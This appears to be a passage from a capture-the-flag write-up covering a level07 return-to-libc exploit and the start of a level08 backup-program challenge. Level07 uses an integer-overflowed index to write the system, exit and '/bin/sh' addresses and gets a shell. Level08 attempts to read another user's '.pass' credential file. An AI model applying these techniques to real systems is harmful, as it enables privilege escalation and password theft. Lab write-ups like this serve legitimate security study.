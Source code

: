 ```shell
Index 114: 1073741938 stores at index 114 (cf. above)
Index 115: 115 % 3 = 1 => we can use 115 as index
Index 116: 116 % 3 = 2 => we can use 116 as index


EIP_ADDRESS = SYSTEM_ADDRESS + EXIT_ADDRESS + SHELL_ADDRESS
                    |              |               |
0xffffd63c =   0xf7e6aed0      0xf7e5eb70      0xf7f897ec    # Addresses
               4159090384      4159040368      4160264172    # Unsigned int
                    |              |               |
               data[114]       data[115]       data[116]
               1073741938      115             116           # Indexes
```

```shell
~/level07
  Input command: store
    Number: 4159090384  # system 0xf7e6aed0
    Index: 1073741938   # Index 114
    Completed store command successfully
  Input command: store
    Number: 4159040368  # exit 0xf7e5eb70
    Index: 115
    Completed store command successfully
  Input command: store
    Number: 4160264172  # /bin/sh 0xf7f897ec
    Index: 116
    Completed store command successfully
  Input command: quit
$ whoami
```

---

## Level08 - 64 bits - Open path trick

First of all, the program needs one argument, which is a file. It will basically do a backup of its content inside the `backups` folder, and write the logs inside `.log`.

First it will open `./backups/.log` and write `LOG: Starting back up: ` + argv[1].  
Secondly it will open argv[1], with only read permissions.  
Then it will concatenate `./backups/` with argv[1], and open it.

After that it will write the content of argv[1] inside the `./backups/` + argv[1] path, and finally will write `LOG: Finished back up ` + argv[1].

### Resolve

So the main idea we could have would be to open `/home/users/level09` but it doesn't find the right pass when opening the `./backups/` + argv[1]

```shell
./level08 /home/users/level09/.pass
    ERROR: Failed to open ./backups//home/users/level09/.pass
```
